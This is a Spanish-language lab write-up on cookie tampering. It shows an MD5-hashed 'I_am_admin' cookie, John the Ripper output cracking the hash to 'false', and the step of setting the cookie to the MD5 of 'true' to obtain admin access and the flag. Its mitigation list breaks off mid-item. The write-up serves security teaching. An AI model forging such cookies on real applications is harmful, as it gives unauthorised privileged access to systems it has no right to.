 # Cookie Tampering
### A07:2021 – Identification and Authentication Failures

Para la gestión de roles en una aplicación web, es habitual el uso de tokens o cookies para identificar el rol de un usuario.


## Ataque

En la parte inicial de reconocimiento, hemos observado que al hacer una petición al servidor, éste nos retorna una cabecera `Set-Cookie` con un 
formato interesante.

```bash

HTTP/1.1 200 OK
Server: nginx/1.4.6 (Ubuntu)
Date: Fri, 13 Jun 2025 15:16:20 GMT
Content-Type: text/html
Connection: keep-alive
X-Powered-By: PHP/5.5.9-1ubuntu4.29
Set-Cookie: I_am_admin=68934a3e9455fa72420237eb05902327; expires=Fri, 13-Jun-2025 16:16:20 GMT; Max-Age=3600

```

El id de la cookie nos da a entender que es un tipo de control de roles que autentifica al usuario como administrador, y como valor tenemos una serie de caracteres sospechosamente parecidos a un hash MD5.

Nos guardamos la credencial y lanzamos un john:
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=12
Note: Passwords longer than 18 [worst case UTF-8] to 55 [ASCII] rejected
Press Ctrl-C to abort, or send SIGUSR1 to john process for status
false            (I_am_admin)     
1g 0:00:00:00 DONE (2025-06-13 15:38) 2.222g/s 2122Kp/s 2122Kc/s 2122KC/s fame4eva..fahimi
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

Vemos que el valor hasheado corresponde a **false**. Si probamos a poner como valor a la cookie **b326b5062b2f0e69046810717534cb09**, o true hasheado con md5, y hacemos una petición a la aplicación, nos devuelve la flag.

```bash
echo -n true | md5sum
```

## Mitigación
- No usar MD5 para hashear absolutamente nada relacionado con credenciales.
- Uso

## Referencias

- [OWASP: Testing for cookie attributes](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/02-Testing_for_Cookies_Attributes)